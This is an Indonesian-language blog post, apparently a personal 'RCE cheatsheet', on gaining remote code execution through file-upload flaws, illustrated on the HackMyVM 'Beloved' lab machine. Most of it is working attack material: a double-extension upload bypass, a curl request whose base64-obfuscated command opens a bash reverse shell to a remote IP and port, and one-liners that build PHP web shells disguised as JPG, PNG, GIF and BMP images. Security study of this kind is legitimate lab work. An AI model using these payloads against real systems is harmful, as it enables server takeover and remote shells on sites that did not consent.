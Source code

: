 ```yaml
---
layout: post
title: "Note: RCE cheatsheet"
date: 2022-12-09
---
```


Karena saya rada kesusahan untuk mengumpulkan resource jika nanti googling-googling. Dan note yang saya pakai juga tidak lengkap referensinya, maka saya kumpulkan di sini. 

Jika ada malicious upload, maka yang seharusnya dilakukan adalah memanipulasi file extension atau memanipulasi isi dari file tersebut

Bisa juga, jika trik ini tidak berfungsi dengan benar, maka bisa dinjeksi dengan membuat ekstensi menjadi double
```sh
~$ mv shell.jpg shell.jpg.php
```
lalu coba aktifkan dengan curl
```sh
~$ curl -s "http://beloved/wp-content/uploads/2022/12/shell.jpg-1670590514.8364.php?cmd=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTkuMS8xMjM0NSAwPiYxCg%3D%3D+%7C+base64+-d+%7C+bash"
```
Dan, tidak perlu repot repot untuk menggunakan <https://revshell.com> yang dibuat oleh 0day. Cukup buat string menjadi URL-encoded, dan eksekusi.
```python
~$ python -c 'import urllib.parse; string = "(isi string di sini)"; print(urllib.parse.quote_plus(string))'
```
Dengan format seperti ini, btw ini format favorit saya.
```sh
~$ echo (base64) | base64 -d | bash  
```

## Kasus
ada kasus menarik dari mesin [Beloved: HackMyVM], exploit yang saya jalankan dengan request `image` tidak berfungsi, jadi saya menggunakan trik manual yaitu mengganti format menjadi `.jpg.php` untuk membypass.

![image](https://i.postimg.cc/63Vx9Pzf/image.png)

Ketika saya eksekusi jadi seperti ini
```
╭─ via [machines/beloved]
╰─ curl -s http://beloved/wp-content/uploads/2022/12/shell.jpg-1670590514.8364.php\?cmd\=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Sebelum masuk ke cheatsheet, jika anda penikmat POST Request bisa mengganti `$_GET` menjadi `$_POST`. LOL semua orang juga sudah tau ini.

## JPG
```shell
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg
```

## PNG
```shell
echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png
```

## GIF
```shell
echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif
```
## BMP
```shell
echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp
```

Happy hacking!

